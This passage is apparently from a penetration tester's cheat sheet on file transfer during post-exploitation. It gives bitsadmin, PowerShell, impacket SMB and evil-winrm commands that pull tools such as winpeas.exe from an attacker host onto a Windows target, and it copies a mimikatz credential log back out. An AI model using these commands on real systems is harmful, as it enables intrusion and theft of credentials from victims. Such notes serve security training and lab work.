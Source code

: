 on target:
```
bitsadmin /create MyDownload

bitsadmin /addfile MyDownload http://<ip>:<port>/<s_path> <d_path>

bitsadmin /resume MyDownload

bitsadmin /info MyDownload /verbose

bitsadmin /complete MyDownload
```

##### powershell

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<ip>:<port>/<s_path>', '<d_path>')
```

```
Invoke-WebRequest -URI http://<ip>:<port>/<s_path> -OutFile <d_path>
```



##### SMB

on kali
```
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```

on windows:
```
net use m: \\Kali_IP\test /user:kourosh kourosh 
copy mimikatz.log m:\
```

from windows to kali:
https://blog.ropnop.com/transferring-files-from-kali-to-windows/#setting-up-the-server
download files from kali to target
```
copy \\192.168.45.160\TEST\winpeas.exe
```
##### evil-winrm

after create a shell using evil-winrm using built in moduls

```
upload <s_path> <d_path>
```

```
download <s_path> <d_path>
```

### compile

